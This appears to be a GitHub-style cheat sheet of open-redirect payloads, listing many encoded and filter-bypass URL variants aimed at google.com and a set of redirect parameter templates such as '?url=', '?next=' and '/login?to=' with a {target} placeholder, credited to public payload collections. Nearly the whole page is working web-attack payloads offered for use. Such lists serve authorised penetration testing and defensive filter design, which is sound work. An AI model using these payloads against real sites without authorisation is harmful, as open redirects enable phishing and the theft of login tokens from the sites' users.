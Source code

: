 ## Open Redirect

```
/%09/google.com
```

```
/%5cgoogle.com
```

```
//www.google.com/%2f%2e%2e
```

```
%2F%2Fgoogle.com%2F%2F
```

```
%25%32%65google.com
```

```
//www.google.com/%2e%2e
```

```
@%E2%80%AE@google.com 
```

```
//;@google.com
```

```
//google.com/
```

```
//google.com/%2f..
```

```
//\google.com
```

```
hTTp://google.com
```

```
hTTp%3a%2f%2f%google.com%2f
```

```
HtTp://google.com
```

```
//google%00.com
```

```
/\victim.com:80%40google.com
```

## Possible open redirect parameters

```
?url=http://{target}
```

```
?url=https://{target}
```

```
?next=http://{target}
```

```
?next=https://{target}
```

```
?url=https://{target}
```

```
?url=http://{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?next=//{target}
```

```
?next=$2f%2f{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?url=//{target}
```

```
/redirect/{target}
```

```
/cgi-bin/redirect.cgi?{target}
```

```
/out/{target}
```

```
/out?{target}
```

```
/out?/{target}
```

```
/out?//{target}
```

```
/out?/\{target}
```

```
/out?///{target}
```

```
?view={target}
```

```
?view=/{target}
```

```
?view=//{target}
```

```
?view=/\{target}
```

```
?view=///{target}
```

```
/login?to={target}
```

```
/login?to=/{target}
```

```
/login?to=//{target}
```

```
/login?to=/\{target}
```

```
/login?to=///{target}
```

```
?target={target}
```


```
?checkout_url={target}
```

```
?dest={target}
```



**Open Redirect Payloads** by @cujanovic

https://github.com/cujanovic/Open-Redirect-Payloads


**Open Redirect Paramters** by @fuzzdb-project

https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/redirect/redirect-urls-template.txt
